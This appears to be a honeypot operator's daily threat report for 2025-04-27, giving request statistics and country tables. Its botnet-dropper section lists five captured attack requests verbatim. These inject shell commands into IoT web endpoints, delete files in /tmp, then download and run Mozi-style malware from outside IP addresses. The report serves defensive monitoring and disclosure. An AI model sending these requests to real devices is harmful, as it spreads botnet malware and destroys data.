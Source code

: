 ```yaml
---
title: "Report: 2025-04-27 "
date: 2025-04-27
desciption: "Report: 2025-04-27" 
tags: [repport, daily]
---
```



# Daily Report: 2025-04-27 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 5 stage 1 IP address(es), linked to 5 dropper URL(s).  

There are 56 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 2477 requests were recorded during the day, originating from 5 different countries, with a peak of 458 requests coming from NL.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| PT               | Australia          |
| US               | Dubai              |
| FR               | Israel             |
| NL               | Israel             |

## botnet_dropper_behaviour
| remote_addr    | request                                                                                                                                                                      |
|:---------------|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 121.228.21.17  | GET /shell?cd+/tmp;rm+-rf+*;wget+http://121.228.21.17:57716/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1                                                                |
| 190.72.152.73  | GET /shell?cd+/tmp;rm+-rf+*;wget+31.58.51.98/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                      |
| 8.152.208.190  | GET /shell?cd+/tmp;rm+-rf+*;wget+ 45.90.162.234/wdjkalwww/telnet.arm5;chmod+777+/tmp/telnet.arm5;sh+/tmp/telnet.arm5 HTTP/1.1                                                |
| 139.5.1.142    | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://139.5.1.142:53881/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0   |
| 122.97.138.184 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://102.98.81.132:45030/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0 |
